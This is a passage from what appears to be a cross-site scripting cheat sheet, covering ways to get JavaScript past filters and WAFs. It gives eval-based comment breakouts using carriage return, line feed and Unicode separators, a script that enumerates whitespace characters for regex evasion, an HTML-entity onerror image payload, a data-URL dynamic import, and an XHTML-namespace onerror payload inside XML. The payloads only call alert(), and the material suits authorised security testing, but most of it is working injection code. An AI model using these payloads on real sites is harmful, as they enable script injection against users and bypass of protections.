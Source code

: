 ```javascript
eval('//\ralert(1337)'); // Carriage return
eval('//\nalert(1337)'); // Line feed
eval('//\u2028alert(1337)'); // Line separator
eval('//\u2029alert(1337)'); // Paragraph separator
```

If a single-line comment injection is blocked by a new line, try alternative characters.

## Whitespace

JavaScript has many whitespace characters that can help bypass basic WAFs using regular expressions. Test for whitespace using:

```javascript
let log = [];
function funct() {}
for (let i = 0; i <= 0x10FFFF; i++) {
  try {
    eval(`funct${String.fromCodePoint(i)}()`);
    log.push(i);
  } catch (e) {}
}
console.log(log);
```

Use raw characters or HTML-encoded ones for SVG or HTML attributes:

```html
<img/src/onerror=alert&#65279;(1)>
```

## Dynamic Imports

JavaScript allows dynamically loading modules using `import()`. It lets the JavaScript engine decide if it’s needed, and you can specify URLs to import or use a data URL to execute arbitrary JavaScript:

```javascript
import('data:text/javascript,alert(1)')
```

## XHTML Namespace in XML

If you control an XML file with a content type of `text/xml`, you can still execute JavaScript by providing an XHTML namespace:

```xml
<xml>
  <text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>
```

This can be useful for file uploads or REST API responses served with an XML content type.

## SVG Uploads
